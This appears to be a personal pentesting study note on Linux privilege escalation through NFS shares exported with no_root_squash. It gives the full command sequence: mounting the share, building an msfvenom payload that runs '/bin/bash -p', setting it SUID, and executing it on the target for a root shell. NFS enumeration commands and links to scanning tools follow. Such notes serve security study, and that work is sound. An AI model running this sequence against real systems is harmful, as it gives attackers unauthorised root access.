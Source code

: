 
2024-06-16 13:06

Source: #privesc 

Tags: [[linux]]

##### Root Squashing

- Root Squashing is how NFS prevents an obvious privilege escalation. 
- If the remote user is (or claims to be) root (uid=0), NFS will instead “squash” the user and treat them as if they are the “nobody” user, in the “nogroup” group. 
- While this behavior is default, it can be disabled
##### no_root_squash

- no_root_squash is an NFS configuration option which turns root squashing off.
- When included in a writable share configuration, a remote user who identifies as “root” can create files on the NFS share as the local root user.

##### Example : 

**Adversary machine**

- view contents of `/etc/exports`
- find for shares that are configured with the no_root_squash option (in the example we have /tmp) meaning we can write files to it as the root user over NFS

**Local Machine**

check if tmp share is available to mount 
```
$ showmount -e <targetip>
Export list for <targetip>
/tmp *
```
Create a directory that will be used as a mount point for the NFS share
```
mkdir /tmp/nfs

then mount the nfs share 
mount -o rw,vers=2 <targetip>:/tmp /tmp/nfs
```
Generate a [[msfvenom]] executable which runs bash with -p option and save this to the nfs share 
```
msfvenom -p linux/x86/exec CMD="/bin/bash -p" -f elf -o /tmp/nfs/shell.elf
```
Note that i am doing this as root user so the file should also be owned by root on the nfs share 
```
make it executable - 
chmod +xs /tmp/nfs/shell.elf
```
##### Adversary machine

check `/tmp` directory for shell.elf and execute it
### Enumeration 

NFS is a type of file system that enables users to access, view, store, and update files over a remote server. These remote data can be accessed by the client in the same way it is accessed on the local system. Depending on the privileges assigned to the clients, they can either only read or both read and write the data. 

An NFS system is generally implemented on a computer network in which the centralization of data is required for critical resources. The remote procedure call (RPC) is used to route and process the request between clients and servers. 

To accomplish the task of sharing files and directories over the network, the "exporting" process is used. However, the client first attempts to make the file available for sharing by using the "mounting" process. 
- The `/etc/exports` location on the NFS server contains a list of clients allowed to share files on the server. In this approach, to access the server, the only credential used is the client's IP address.
- NFS versions before version 4 run on the same security specification. 

Enumerating NFS services enables attackers to identify the exported directories, list of clients connected to the NFS server along with their IP addresses, and the shared data associated with the IP addresses. After gathering this information, the attackers can spoof their IP addresses to gain full access to the shared files on the server.

As shown in the screenshot, an attacker runs the following `rpcinfo` command to scan the target IP address for an open NFS port (port 2049) and the NFS services running on it: 
`rpcinfo -p <Target IP Address>`
#### Enum Tools

[GitHub - hegusung/RPCScan: Tool to communicate with RPC services and check misconfigurations on NFS shares](https://github.com/hegusung/RPCScan)
[GitHub - p4pentest/SuperEnum: This script does the basic enumeration of any open port along with screenshots.](https://github.com/p4pentest/SuperEnum)


### References
